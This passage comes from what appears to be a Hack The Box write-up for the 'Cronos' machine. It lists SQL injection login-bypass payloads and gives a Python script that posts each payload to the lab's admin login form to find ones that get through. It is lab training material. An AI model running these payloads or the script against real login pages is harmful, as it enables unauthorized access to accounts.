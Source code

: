 {% raw %}
```bash
┌──(kali㉿kali)-[~/Documents/htb/cronos]
└─$ cat payloads.txt 
'-'
' '
'&'
'^'
'*'
' or ''-'
' or '' '
' or ''&'
' or ''^'

<snip>
```
{% endraw %}

<br />
Create a python the test the two fields with the payload list that was just created.

{% raw %}
```python
import requests

check = 'invalid'

url = 'http://admin.cronos.htb/'
headers = {}
cookies = {}
params = {}

with open('/home/kali/Documents/htb/cronos/payloads.txt','r') as fs:
    for line in fs:
        password = line.rstrip('\n')
        data = {'username':password,
                'password':'admin'}
        r = requests.post(url=url,headers=headers,cookies=cookies,params=params,data=data)
        if check not in r.text:
            print('username -> {payload}'.format(payload=password))

        data = {'username':'admin',
                'password':password}
        r = requests.post(url=url,headers=headers,cookies=cookies,params=params,data=data)
        if check not in r.text:
            print('password -> {payload}'.format(payload=password))

        
print('Fin')
```
{% endraw %}

<br />
Run the script to see valid payloads.
